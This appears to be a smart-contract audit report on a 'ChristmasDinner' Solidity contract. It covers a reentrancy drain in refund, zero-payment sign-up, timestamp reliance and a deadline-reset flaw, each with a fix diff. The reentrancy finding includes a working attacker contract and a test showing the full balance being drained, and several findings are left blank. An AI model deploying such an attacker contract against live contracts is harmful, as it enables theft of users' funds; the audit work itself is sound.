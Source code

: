 ### [H-1] Reentrancy attack in `ChristmasDinner::refund` allows malicious code to drain contract balance

**Description:**  The `ChristmasDinner::nonReentrant` modifier doesn't set `locked` to `true` before transfer money, so malicious code can bypass reentrant check and drain the contract balance.
```javascript
   modifier nonReentrant() {
        require(!locked, "No re-entrancy");
@>      _;
        locked = false;
    }
```
A malicious user who has entered the contract could have a `fallback`/`receive` function that calls the `ChristmasDinner::refund` function again and claim another refund. They could continue to cycle this until the contract balance is drained. 

**Impact:** All contract balance could be stolen by malicious user.

**Proof of Code:** 
<details>
<summary>Code</summary>

```javascript
contract ReentrancyAttacker {
    ChristmasDinner cd;
    ERC20Mock usdc;
    uint256 depositAmount = 1e18;

    constructor(ChristmasDinner _christmasDinner, ERC20Mock _usdc) {
        cd = ChristmasDinner(_christmasDinner);
        usdc = _usdc;
        usdc.approve(address(cd), depositAmount);
    }

    function attack() external payable {
        cd.deposit(address(usdc), depositAmount);
        cd.refund();
    }

    receive() external payable {
        console.log(ERC20Mock(usdc).balanceOf(address(cd)));
        if (ERC20Mock(usdc).balanceOf(address(cd)) > depositAmount) {
            cd.refund();
        }
    }
}

    function testReentrance() public {
        vm.prank(user1);
        cd.deposit(address(usdc), 2e18);
        uint256 depositAmount = 1e18;

        ReentrancyAttacker attacker = new ReentrancyAttacker(cd, usdc);
        usdc.mint(address(attacker), depositAmount);

        uint256 startingAttackerBalance = ERC20Mock(usdc).balanceOf(address(attacker));
        uint256 startingContractBalance = ERC20Mock(usdc).balanceOf(address(cd));

        attacker.attack();

        uint256 endingAttackerBalance = ERC20Mock(usdc).balanceOf(address(attacker));
        uint256 endingContractBalance = ERC20Mock(usdc).balanceOf(address(cd));

        assertEq(endingAttackerBalance, startingContractBalance + startingAttackerBalance);
        assertEq(endingContractBalance, 0);
    }
```
</details>

**Recommended Mitigation:** 
```diff
    modifier nonReentrant() {
        require(!locked, "No re-entrancy");
+       locked = true;    
        _;
        locked = false;
    }
```

### [M-1] User can sing up without paying, which violates the rule stated in the document: "we directly "force" the attendees to pay upon signup'

**Description:** 

**Impact:** 
User can sing up without paying

**Proof of Concept:**

```javascript
    function test_signUpWithoutPay() public{
        address newUser = makeAddr("new user");
        vm.startPrank(newUser);
        cd.deposit(address(wbtc), 0);
        vm.stopPrank();
    }
```

**Recommended Mitigation:** 
```diff
    function deposit(address _token, uint256 _amount) external beforeDeadline {
+       if(_amount == 0){
+           revert NeedPaying();
+       }
        if(!whitelisted[_token]) {
            revert NotSupportedToken();
        }
        if(participant[msg.sender]){
            balances[msg.sender][_token] += _amount;
            IERC20(_token).safeTransferFrom(msg.sender, address(this), _amount);
            emit GenerousAdditionalContribution(msg.sender, _amount);
        } else {
            participant[msg.sender] = true;
            balances[msg.sender][_token] += _amount;
            IERC20(_token).safeTransferFrom(msg.sender, address(this), _amount);
            emit NewSignup(msg.sender, _amount, getParticipationStatus(msg.sender));
        }

    }
```

### [M-2] Dangerous usage of block.timestamp comparison with `deadline`. block.timestamp can be manipulated by miners.

**Description:** 

**Impact:** 

**Proof of Concept:**

**Recommended Mitigation:** 
Avoid relying on block.timestamp


### [M-3] The host can reset the deadline multiple times

**Description:** 

**Impact:** 

participants can't refund 

**Proof of Concept:**

**Recommended Mitigation:** 
```diff
    function setDeadline(uint256 _days) external onlyHost {
        if(deadlineSet) {
            revert DeadlineAlreadySet();
        } else {
+           deadlineSet = true;
            deadline = block.timestamp + _days * 1 days;
            emit DeadlineSet(deadline);
        }
    }
```